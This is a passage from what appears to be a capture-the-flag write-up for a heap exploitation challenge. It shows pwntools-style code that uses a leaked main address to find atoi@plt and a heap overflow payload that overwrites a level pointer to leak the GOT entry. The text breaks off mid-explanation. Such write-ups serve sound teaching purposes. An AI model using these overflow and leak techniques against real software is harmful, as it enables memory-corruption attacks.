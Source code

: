 ```
int get_num()
{
    char buf[0x10];
    fgets(buf, 0x10, stdin);
    return atoi(buf);
}
```
Before we go deep into talking about leaking, let's talk about what we have in hand:
- `.text` address leak
```c
    puts("Welcome to the heap-like game engine!");
    printf("A welcome gift: %p\n", main);
```
yes we got a gift. This can be used to calculate the runtime `@plt` address of `atoi` and leaks it. 
```
0x55c573011038] atoi@GLIBC_2.2.5 -> 0x7ff1137d74a0 (atoi) ◂— sub rsp, 8

Dump of assembler code for function main:
   0x000055c57300e662 <+0>:     push   rbp

pwndbg> x/x 0x55c573011038 - 0x000055c57300e662
0x29d6: Cannot access memory at address 0x29d6
```
Therefore, runtime `atoi@plt` would always be `main_addr + 0x29d6`.

#### leaking 
Here's a step by step guide on how to leak arbitrary addresses:
```py
create_level(0)  
create_level(1) 
create_level(2) 

explore(1)
create_level(0)
reset()
```
First, create three `levels` and we go into the second `level`. The reason why we need a third level is because of:
```
if (prev == curr) {
	puts("We encourage game creativity so try to mix it up!");
        return;
}
```
Due to `prev = level;` in `create_level`, `prev` points to the the lastest `level` created within a `level`. ANd after a simple `explore(1)` in the above specific example, we moves from `curr` to the second chunk. Therefore, if we do not create another third chunk, `prev = curr` would happen. 

Anyways, after successfully moving to the second chunk and that `prev != curr`, we can create a `level` inside the second chunk (`level`). Lastly, we `reset` back to the starting chunk, so that we can move into the first chunk to overflow into the first pointer of the second chunk we have just created. Here's how it looks like:
```py
explore(0) # going into the first chunk to overflow into the second chunk
payload1 = flat(
	
	b"B" * 0x20, # padding 
	0, # metadata
	0x0000000000000071, # size
	atoi_addr - 0x40 # Address to leak, as it loads like this - lea    rcx, [rdx + 0x40]
)
edit_level(payload1) # writes the above payload from first level overflowing up to the second
reset()
```
After the above process, 
```
```